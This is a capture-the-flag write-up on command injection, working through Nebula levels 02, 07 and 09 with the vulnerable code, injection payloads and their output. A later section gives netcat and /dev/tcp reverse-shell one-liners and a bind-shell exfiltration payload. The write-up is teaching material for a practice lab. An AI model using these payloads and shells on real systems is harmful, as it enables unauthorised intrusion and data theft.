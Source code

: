 ## Classic Command Injection

**Command Execute Functions in C**
```
system()
execl()
execlp()
execv()
execvp()
execle()
execve()
popen()
etc...
```
**Nebula Level02** [ [Description](https://exploit-exercises.lains.space/nebula/level02/) ]

Vulnerble Code
```
char *buffer;
buffer = NULL;
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer); 
system(buffer);
```
Getting environment variable "USER" and about to execute this string

Export USER with random value and Running Program
```
level02@nebula:~$ export USER=aaaa
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo aaaa is cool")
aaaa is cool
```
Running two Command in Linux ( Many ways )
```
level02@nebula:~$ id;whoami
uid=1003(level02) gid=1003(level02) groups=1003(level02)
level02
```
Command Injection and Solving Level02
```
/bin/echo [INPUT] is cool
/bin/echo Break;getflag;echo is cool 
level02@nebula:~$ unset USER
level02@nebula:~$ export USER="Break;getflag;echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo Break;getflag;echo is cool")
Break
You have successfully executed getflag on a target account
is cool
```
**Nebula Level07** [ [Description](https://exploit-exercises.lains.space/nebula/level07/) ]

Vulnerable Code
```
#!/usr/bin/perl 
use CGI qw{param}; 
print "Content-type: text/html\n\n"; 
sub ping { 
	$host = $_[0]; print("<html><head><title>Ping results</title></head><body><pre>"); 
	@output = `ping -c 3 $host 2>&1`; foreach $line (@output) {
		print "$line"; } 
	print("</pre></body></html>"); 
		} 
		# check if Host set. if not, display normal page, etc 
ping(param("Host"));
```
Backticks is alternative way to execute command in PERL [ [Ref](https://www.perlmonks.org/?node_id=380670) ]
Running Port
```
tcp6       0      0 :::7007                 :::*                    LISTEN
```
HTTP Requests from My Windows Host
```
$ curl http://192.168.43.229:7007/index.cgi?Host=192.168.43.234
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57    0    57    0     0      9      0 --:--:--  0:00:06 --:--:--     0

```
Command Injection
```
ping -c 3 $host 2>&1
ping -c 3 [ INPUT ] 2>&1
ping -c 3 ; getflag 2>&1  #No Result

#Final Payload
127.0.0.1%3bgetflag
```
Result
```
thinb@DESKTOP-U4MGHBB ~
$ curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3Bgetflag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504    0   504    0     0    252      0 --:--:--  0:00:02 --:--:--   246
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.021 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.021/0.024/0.030/0.006 ms
You have successfully executed getflag on a target account
</pre></body></html>

```
**Netcat TCP Reverse Shell** ( Blind Command Injection )
Listenting on My Computer
```
nc -lvp1234
```
Giving a Shell with e
```
nc -e /bin/bash 192.168.43.234 1234
```
Without e
```
mknod /tmp/backpipe p/bin/sh 0</tmp/backpipe | nc **attacker_ip** 4444 1>/tmp/backpipe
```
Using Dev
```
127.0.0.1; bash -i >& /dev/tcp/192.168.43.234/1234 0>&1;
```
Don't need for Nebula 007

**Data Exfiltration with Bind Shell** ( if we need to read flag )
```
nc –l –p {port}  <  {file/to/extract}
127.0.0.1; nc.traditional -l -p 1234 < thttpd.conf
```
Payload
```
curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3B%20nc.traditional%20-l%20-p%201234%20%3C%20thttpd.conf
```
Connect
```
C:\Users\thinb>nc 192.168.43.229 1234
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```
**Nebula Level09** [ [Description](https://exploit-exercises.lains.space/nebula/level09/) ]  

Vulnerable Code PHP
```
$contents  =  preg_replace("/(\[email (.*)\])/e",  "spam(\"\\2\")",  $contents);
```
I already explained in LOL Free Web Security Class. [ [Watch Here](https://www.youtube.com/watch?v=2hphqcUpfcE) ]

**Other Command Injection**
Python Sandbox Escape ( [Read More](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/) )
```
os.system () 
os.popen () 
ommands.getstatusoutput() 
commands.getoutput() 
commands.getstatus() 
subprocess.call(command, shell=True) 
subprocess.Popen(command, shell=True) 
pty.spawn()
```

**References**  
[https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html](https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html)
[http://man7.org/linux/man-pages/man3/asprintf.3.html](http://man7.org/linux/man-pages/man3/asprintf.3.html)
[https://www.perlmonks.org/?node_id=380670](https://www.perlmonks.org/?node_id=380670)
[https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)
[https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection](https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection)
